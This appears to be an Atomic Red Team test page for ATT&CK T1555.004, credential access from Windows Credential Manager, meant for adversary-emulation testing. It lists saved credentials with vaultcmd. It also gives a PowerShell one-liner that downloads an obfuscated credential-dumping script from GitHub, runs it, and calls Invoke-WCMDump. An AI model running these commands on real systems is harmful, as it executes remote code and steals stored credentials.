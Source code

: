 ```yaml
---
tags: [T1555_004, atomic_test]
filename: "[[T1555.004 - Credentials from Password Stores- Windows Credential Manager]]"
---
```

# T1555.004 - Credentials from Password Stores: Windows Credential Manager

## Atomic Test #1 - Access Saved Credentials via VaultCmd
List credentials currently stored in Windows Credential Manager via the native Windows utility vaultcmd.exe
Credential Manager stores credentials for signing into websites, applications, and/or devices that request authentication through NTLM or Kerberos
https://blog.malwarebytes.com/101/2016/01/the-windows-vaults/
https://medium.com/threatpunter/detecting-adversary-tradecraft-with-image-load-event-logging-and-eql-8de93338c16

**Supported Platforms:** Windows


**auto_generated_guid:** 9c2dd36d-5c8b-4b29-8d72-a11b0d5d7439






#### Attack Commands: Run with `command_prompt`! 


```cmd
vaultcmd /listcreds:"Windows Credentials"
```






<br/>
<br/>

## Atomic Test #2 - WinPwn - Loot local Credentials - Invoke-WCMDump
Loot local Credentials - Invoke-WCMDump technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** fa714db1-63dd-479e-a58e-7b2b52ca5997






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/obfuscatedps/DumpWCM.ps1')
Invoke-WCMDump
```






<br/>
